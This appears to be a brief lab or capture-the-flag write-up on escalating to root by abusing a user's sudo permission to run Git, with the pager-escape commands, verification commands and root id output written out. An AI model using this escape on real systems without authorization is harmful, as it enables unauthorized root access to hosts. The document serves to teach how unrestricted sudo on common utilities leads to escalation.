

# Privilege Escalation Through Git

## Objective

Exploit Jerry's sudo permission to execute Git as root and obtain an elevated shell.

## Technique and Commands

**Git Pager Escape**

```bash
sudo git -p help config
```

Inside the pager, execute:

```text
!/bin/sh
```

## Findings

The pager escape successfully launched a shell with root privileges.

Privilege escalation was verified using:

```bash
whoami
id
```

Output confirmed:

```text
uid=0(root) gid=0(root) groups=0(root)
```

## Analysis

Git was permitted to run as root through sudo. Its pager functionality provided a way to execute an external shell, which inherited the privileges of the root-running process.

This demonstrated how unrestricted execution of certain utilities through sudo can lead to privilege escalation.

## Conclusion

Root access was successfully obtained by exploiting Jerry's sudo permission to execute Git.

## Evidence

